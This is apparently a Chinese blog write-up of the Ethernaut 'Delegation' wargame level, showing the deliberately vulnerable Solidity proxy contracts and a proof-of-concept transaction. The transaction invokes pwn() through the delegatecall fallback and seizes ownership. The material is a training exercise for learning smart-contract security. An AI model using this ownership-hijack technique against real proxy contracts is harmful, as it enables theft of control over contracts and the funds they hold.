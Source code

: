 ```yaml
---
title: 'delegatecall-1'
date: 2022-12-9 20:42:15
tags:
- '区块链技术'
- '智能合约安全'
categories:
- '智能合约安全'
---
```


<!-- more -->

::: tip

目前来看最全面的智能合约安全靶场:+1:

https://ethernaut.openzeppelin.com/ 

浏览器控制台 help()指令

![help](./assets/1670479273112.png)

:::

#### 第六关Delegate  思路与POC

##### 目标: 获取Delegation合约的所有权

#### 先看代码:

##### 这里很明显是在测试你懂不懂的底层函数delegatecall的用途

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {

  address public owner;

  constructor(address _owner) {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}
//此合约作为Delegate合约的代理,
//外部调用通过发送交易调用此合约的fallback函数调用具体声明逻辑的合约(此处为Delegate合约)
contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```

poc思路:point_right:：在Delegation合约中并没有更改owner变量的逻辑,所以很明显你需要代理调用Delegate合约中的pwn函数

```solidity
 //生成call data
  function getData() public pure returns (bytes4 ) {
        return bytes4(keccak256("pwn()"));
    }
```

```js
/*
from:你的钱包地址
to:Delegation合约实例地址
data:字节码格式的函数名称 
*/
await sendTransaction({from: '0x0e21d35681E679C33dD49731935FB81F1aee8C05' , to:'0x9a47F3A18F013726705Ca844e15FDb5C5645A684',data:'0xdd365b8b' })
await contract.owner()
'0x0e21d35681E679C33dD49731935FB81F1aee8C05'
```

:ok_hand:

![info](./assets/1670591862405.png)
